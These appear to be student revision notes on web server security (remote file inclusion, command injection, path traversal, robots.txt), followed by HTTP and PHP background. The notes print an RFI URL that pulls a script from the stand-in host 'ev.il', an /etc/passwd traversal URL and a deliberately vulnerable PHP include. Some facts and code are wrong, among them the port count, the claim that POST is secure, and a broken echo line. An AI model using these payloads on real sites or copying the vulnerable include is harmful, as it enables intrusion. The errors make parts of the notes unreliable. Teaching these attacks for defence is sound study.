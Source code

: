 ```yaml
---
layout: CS140
title: Web Server Security Issues
part: true
---
```


A large part of this topic was meant for us to understand more about the interactions between a client and the web server – which was relevant for our coursework at the time. That said, the module organiser has mentioned that security issues related to the web server may be tested in the exam. 

What I have done is included the main security issues at the top of this page, however if there is trouble understanding somethings then you might need to read the sections to understand more about PHP, HTTP requests, Client and Web Server interaction etc. 

## Remote File Inclusion (RFI) Vulnerability

If the URL sent by the user is:

http://yoursite.com/index.php?page=http://ev.il/badscript.php?

include `$_GET[‘page’]”.html”` becomes:

```
include http://ev.il/badscript.php?.html
```

What happens is that `badscript.php` will be run, because the content after “?” will be interpreted as input parameter of the php script. 

## Forms

> A **form** is used to pass information from a web browser to a web server. 

There are 2 different ways to submit a form, GET or POST. Especially when forms contain sensitive information, POST is **always safer** than GET. When a form is sent:

- GET request will have form parameters encoded in the head of the HTTP request as the address of the resource that we want to access. 
- POST requests will have the form parameters placed in the body of the HTTP requests. More **secure** because we can encrypt the HTTP request.

### Call OS commands in PHP

When using PHP, sometimes developers make the mistake of running shell commands through the PHP file that has a parameter/variable that depends on **form inputs**. 

> This is a potential vulnerability as an attacker can send code through these inputs and can make the web server OS perform commands that could compromise security.

## Path Exploits

Path exploits try to enter the directory or access files that are not intended to be accessible. 

For example, if the user in put the web address:

http://www.example.com/home/users/.../etc/passwd

Without proper configuration, the passwd file will be displayed. When allow `_url_fopen` (a directive in the php configuration file - php.ini) is set to “on” – User’s will be allowed to retrieve and display the file in server, even if the file is not a typical web page (e.g. html or php).

## Robot Exclusion Protocol

> Web crawlers or Web robots systematically scan the World Wide Web to mine data.
>
> Robot Exclusion Protocol (REP) specifies which directories of the website that the robot should not scan. 

Instructions are written in the robots.txt file, which is in the root directory of the web server. Example:

```txt
User-agent:* # apply to all robots
Disallow:/local/secure.html

User-agents:Googlebot # apply only to Googlebot
Disallow:/private/
```

When there is sensitive data, we should exclude robots from crawling those files.

## Accompanying resources

That concludes the content covering potential security issues related to web servers. The content below is an additional resource to give background information about the Web Servers, PHP and HTTP requests. I recommend that you give it a read if you’re not confident in your knowledge of this topic.

### Interaction between Client and Web Server

In general there are 5 main steps between client and server

1. User issues URL from a browser
2. Browser sends a request message
3. Server maps the URL to a file or program under the document directory
4. Server returns a response message
5. Browser formats the response and displays

### HTTP Request

When a client types a URL address into the browser, our browser composes a message such as

```http
GET /docs/index/.html HTTP/1.1
Host: www.nowhere123.com
Accept: image/gif, image/jpeg, */*
Accept-Language: en-us
Accept-Encoding: gzip, deflate
User-Agent: Mozzila/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
{blank line}
```

The message consists of a number of lines. The first line is the request line. 

- **Format**: <u>message_name</u>  <u>request-uri</u> (address of the resource we want to access)  <u>HTTP-version</u>. 
- In the example this is the first line.

Request line is followed by request headers

- **Format**: <u>name</u> : <u>value</u> pairs
- In the example this is the 2nd line. Name is "Host". Value is "www.nowhere123.com"

Request line and request headers are together called request message header, followed by request message body. In the example above, the request message body is blank. 

#### HTTP Request Methods

- HTTP protocol defines a set of request methods.
  - in the example above, the message is **GET** - when we type an address in the browser search bar, we always trigger a GET request. 

**Methods supported by web server**

- **GET** : get a web resource from the server
- **HEAD**: get the header that a GET request would have obtained
- **POST**: Used to post the data up to the web server
- **PUT**: Ask the server to store the data
- **DELETE**: Ask the server to delete the data
- **OPTIONS**: Ask the server to request the list of request methods it supports

#### How HTTP server process requests

##### Listening

HTTP server listens to the port(s) specified in the configuration file of the server

- Port is the endpoint communication destination and is associated to a process/service
  - the request arriving at a certain port will be processed by the associated service
- port is a 16 bit number- there are 66536 ports in a computer
- http: 80, ssh: 22, ftp: 21, smtp: 25, etc. 

##### Processing 

After the server receives the request there are three general ways to process to request

1. map the request to a **file** in the directory in the server, and returns the file to the client
2. map the request to a **program** in the server, executes the program, and returns the output of the program to the client. (e.g. post request, CGI)
3. the request cannot be satisfied, the server returns an **error** message. 

If the webpage is HTML file, CGI is one way to invoke a program in the server. If we use PHP to write a webpage we can embed functions in the web page. PHP is a tool for making dynamic web pages. 

### PHP

A section in HTML file. Here is an example:

```php+HTML
<?php
echo My first PHP 
?>
```

**Dynamic file loading in PHP**

Suppose the link of your website is: http://yoursite.com/index.php

In the webpage, there is the following php code:

```php+HTML
<?php include $_GET['page']".html"; ?>
```

PHP supports loading a file based on data passed via the URL parameter.

When the user types the following web address:

http://yoursite/com/index.php?page=photos

- The content after “?” is interpreted as the parameter of the request
- i.e. index.php is run with “page=photos” as input parameter. 

Lets look more at `include $_GET['page']".html`: 

In PHP there are internal arrays which are used to hold information that are passed from the client. The `$_` tells PHP that we are trying to access an array and `GET['page']` tells PHP we are trying to access the `page` variable in the `GET` array. The `include` statement loads “photos.html” because we pass page=photos.

It is a dynamic web page, because the same source of the web page displays different content depending on the user’s input

For example, if the user types `page=contact`, then contact.html page will be loaded instead.

